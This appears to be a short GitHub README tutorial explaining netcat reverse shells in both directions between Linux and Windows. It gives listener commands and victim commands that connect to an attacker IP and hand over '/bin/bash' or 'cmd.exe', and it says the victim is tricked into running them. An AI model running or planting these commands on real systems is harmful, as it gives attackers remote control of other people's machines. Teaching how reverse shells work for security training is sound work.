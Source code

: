 # Reverse-shell-access-using-netcat

I was gain a Reverse shell access uisng netcat in kali linux from windows ...vice versa

# What is Reverse shell access

A reverse shell is a type of connection where a target machine (the victim) initiates a connection back to an attacker’s machine. This allows the attacker to control the target machine remotely by executing commands on it.

# How Reverse Shell Works:

Attacker's Machine: Listens for incoming connections.

Victim's Machine: When compromised, it connects back to the attacker's machine, giving the attacker remote access.

# Two Simple Examples:

# Example 1: Attacker on Windows, Victim on Linux
**Attacker (Windows)**: Sets up a listener using netcat.

**Command**: ncat -lvp 4444

![Image Alt](https://github.com/goutham10248/Reverse-shell-access-using-netcat/blob/26834eb6bf472a46292b847cb73028b8c8d6a0c7/images/1.png)

**This means**: "Listen on port 4444 and wait for a connection."

**Victim** (Linux): The attacker tricks the victim into running a command.

**Command**: nc <**Attacker_IP**> 4444 -e /bin/bash

![Image Alt](https://github.com/goutham10248/Reverse-shell-access-using-netcat/blob/26834eb6bf472a46292b847cb73028b8c8d6a0c7/images/2.png)

**This means**: "Connect to the attacker's IP on port 4444 and give them access to my shell."

![Image Alt](https://github.com/goutham10248/Reverse-shell-access-using-netcat/blob/26834eb6bf472a46292b847cb73028b8c8d6a0c7/images/3.png)

**Result**: The attacker now controls the Linux machine from the Windows machine.

![Image Alt](https://github.com/goutham10248/Reverse-shell-access-using-netcat/blob/26834eb6bf472a46292b847cb73028b8c8d6a0c7/images/4.png)

# Example 2: Attacker on Linux, Victim on Windows
**Attacker** (Linux): Listens for incoming connections.

**Command**: nc -lvp 5555

**Victim** (Windows): The attacker gets the victim to run this command.

**Command**: ncat <**Attacker_IP**> 5555 -e cmd.exe

**This means**: "Connect to the attacker’s IP on port 5555 and give them access to my Windows command prompt."

**Result**: The attacker now has control over the Windows machine.

# In Summary:
**Reverse Shell**: The victim's machine connects back to the attacker's machine.
**Purpose**: Allows remote control over the victim's machine.
**Usage**: Often used in penetration testing or by hackers.
